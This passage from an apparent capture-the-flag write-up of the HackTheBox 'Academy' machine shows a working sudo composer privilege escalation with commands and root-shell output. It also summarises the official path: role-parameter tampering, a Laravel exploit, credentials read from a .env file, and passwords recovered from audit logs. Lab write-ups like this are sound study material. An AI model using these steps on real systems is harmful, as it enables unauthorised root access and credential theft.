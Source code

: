 ```
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
mrb3n@academy:/tmp$ 
```

xxd -r means convert hex to ascii, -p means plain format.

We get a binary with sudo rights. That means we head straight over to GTFObins. https://gtfobins.github.io/gtfobins/composer/

```
mrb3n@academy:/tmp$ TF=$(mktemp -d)
TF=$(mktemp -d)
mrb3n@academy:/tmp$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
<":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
mrb3n@academy:/tmp$ sudo composer --working-dir=$TF run-script x
sudo composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# whoami
whoami
root
# 
```


## Comparing myself with the official writeup:

They use dirsearch to enumerate and find the admin.php page.

After finding out that nothing happens on the page, they use burpsuite to change the role parameter to gain admin access.

They find the subdomain and head over there.

They find the laravel exploit and get a shell. They get a tty shell with `python3 -c 'import pty;pty.spawn("/bin/bash");'`

They go to the .env laravel mysql instance and find the password for user cry0l1t3

They see that the user is a member of the admin group and head over to the logs.

they google linux audit logs and find out that if logging of tty input is enabled, any inpout including passwords are stored hex-encoded instide the audit logs.
